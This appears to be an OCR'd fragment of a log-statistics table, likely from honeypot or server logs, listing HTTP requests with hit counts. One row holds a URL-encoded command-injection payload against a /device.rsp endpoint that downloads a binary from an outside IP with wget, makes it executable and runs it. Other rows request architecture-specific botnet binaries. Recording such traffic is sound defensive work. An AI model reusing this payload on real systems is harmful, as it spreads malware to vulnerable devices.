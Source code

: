 |  17 |                     5 | GET /bins/sora.mips HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  18 |                     5 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                              |
|  19 |                     5 | POST /FormLogin HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  20 |                     5 | GET /jklspc HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|  21 |                     5 | GET /splarm6 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  22 |                     5 | GET /Yboats.m68k HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  23 |                     5 | GET /splarm5 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  24 |                     5 | GET /Yboats.arm6 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  25 |                     5 | GET /splsh4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
